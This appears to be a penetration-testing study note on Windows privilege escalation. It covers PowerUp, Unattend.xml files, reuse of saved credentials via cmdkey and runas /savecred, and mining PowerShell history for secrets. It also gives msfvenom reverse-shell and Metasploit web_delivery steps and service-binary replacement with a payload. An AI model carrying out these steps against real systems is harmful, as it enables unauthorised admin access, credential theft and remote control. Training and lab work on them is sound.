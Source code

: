 # PrivEsc

### PowerUp

PowerUp is populor tool used in context of Windows privilege escalation.
- Part of PowerSploit framework
- Automate the process of scanning a Windows system for potential misconfigurations, vulns that could lead to privilege escalation.

**Steps**:
- Get access and get [Powersploit](https://github.com/PowerShellMafia/PowerSploit) on victim machine
- `powershell -ep bypass`
- Import module PowerSploit `Import-Module PowerSploit` or `Import-Module .\PowerSploit`
    - `Get-Command -Module PowerSploit` Get available module
- Run `Invoke-privescAudit` Check potential exploit for privilege
- `Get-UnquotedService` check for unquoted service paths which could potentially allow for privilege escalation
- `Get-ModifiableService` check for the services that the current user can modify

### Unattend installation file
- Some service can leave config file after installation (like Unattended Windows Setup)
  - `C:\Windows\Panther\Unattend.xml`
  - `C:\Windows\Panther\Autounattend.xml`

Check the system is contain those file, and extract infomation from that.

### Windows Credential Manager

Windows Credential Manager is a built in feature in Microsoft Windows that allow users to securely store and manage credential

`cmdkey` is a command line utility in Windows that interact with Windows Credential Manager. With `cmdkey` you can:
- Add Credential
- List Credential
- Delete Credential

**Steps**:
- Start `powershell` -> `cmdkey /list` ~ List save cred that we can use.
- `runas.exe /savecred /user:administrator cmd` Use save credential, no need to input password

For remote control:
- `msfvenom -p windows/x64/.../reverse_tcp ... -f exe -o shell.exe`
- Use module `web_delivery` -> Set up host and port and payload like msfvenom -> Run -> Set the powershell command
- Run powershell command on victim machine
- Upload the `shell.exe`
- Set up `multi/handler` and run `shell.exe`

### Powershell history

- Check the history with first, apply `show hidden file`
- Goto user folder `AppData/Roaming/Microsoft/Windows/Powershell/PSReadline` 
- Open the `ConsoleHost_History` File with notepad

### Insecure Service Permissions

We can use tool like powerUp, AccessChk to automate check. When Identified the vuls service, Attacker modify the service config and restart the service

Attack vector:
- Service Binary Replacement
- Unquoted Service Path Exploitation
- DLL Hijacking in Services
- Weak Permissions on Service Configuration (Registry)
- Service Permission Manipulation
- Insecure Service Restart Behavior
- Path Interception (Environment Variables)

**Steps**:
- Use `msfvenom -p windows/meterpreter/reverse_tcp .... -f exe > "FileZilla Server.exe"` to generate payload
- Setup the `multi/handler`